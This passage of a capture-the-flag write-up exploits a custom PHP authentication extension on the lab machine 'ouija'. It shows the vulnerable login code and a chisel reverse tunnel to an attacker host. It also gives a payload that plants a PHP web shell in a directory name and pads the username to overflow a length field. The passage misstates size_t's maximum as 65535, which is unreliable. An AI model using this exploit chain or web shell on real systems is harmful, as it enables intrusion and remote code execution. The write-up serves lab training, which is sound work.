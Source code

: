 Looking further at the code we found that say_lverifier wasn’t defined in the PHP file. We also discovered a custom PHP extension.
```
Location:
/development/server-management_system_id_0
/usr/lib/php/20220829/lverifier.so
```

```php
Code segment:

<?php
if(isset($_POST['username']) && isset($_POST['password'])){
//              system("echo ".$_POST['username']." > /tmp/LOG");
        if(say_lverifier($_POST['username'], $_POST['password'])){
                session_start();
                $_SESSION['username'] = $_POST['username'];
                $_SESSION['IS_USER_'] = "yes";
                $_SESSION['__HASH__'] = md5($_POST['username'] . "::" . $_POST['password']);
                header('Location: /core/index.php');
        }else{
                echo "<script>alert('invalid credentials')</alert>";
        }
}?>
```

Decompiling the lverifier.so file shows us the event_recorder call writes to a log file after validating user input.
![Pasted image 20240713215821.png](/images/Pasted image 20240713215821.png){: .normal }


We can use a buffer overflow/integer overflow attack on the username field which is a size_t type variable (max value of 65535).
![Pasted image 20240713215827.png](/images/Pasted image 20240713215827.png){: .normal }


Before being able to access the page we have to portforward.
```bash
# In kali
┌──(kali㉿kali)-[~/Downloads]
└─$ ./chisel server -p 3000 --reverse
2024/01/07 18:13:52 server: Reverse tunnelling enabled
2024/01/07 18:13:52 server: Fingerprint krwSVdUgiKr3xtUBdcVDItYB0Rl3yMjPos2tgJNuUJY=
2024/01/07 18:13:52 server: Listening on <http://0.0.0.0:3000>
2024/01/07 18:14:00 server: session#1: tun: proxy#R:9999=>9999: Listening

# On target
leila@ouija:/tmp$ ./chisel client 10.10.14.140:3000 R:9999:127.0.0.1:9999
2024/01/07 17:13:59 client: Connecting to ws://10.10.14.140:3000
2024/01/07 17:14:00 client: Connected (Latency 41.891538ms)
```

Using the following payload we can control the log file path and content.
```bash
leila@ouija:~$ mkdir "/tmp/miao/<?=\\`\\$_GET[0]\\`?>"

# In kali
┌──(kali㉿kali)-[~]
└─$ python3
Python 3.11.7 (main, Dec  8 2023, 14:22:46) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> a = '/tmp/miao/<?=`$_GET[0]`?>/../../..//development/server-management_system_id_0/miao.php'
>>> len(a)
86
>>> '/'*714 + a  + 'A'*64738
```
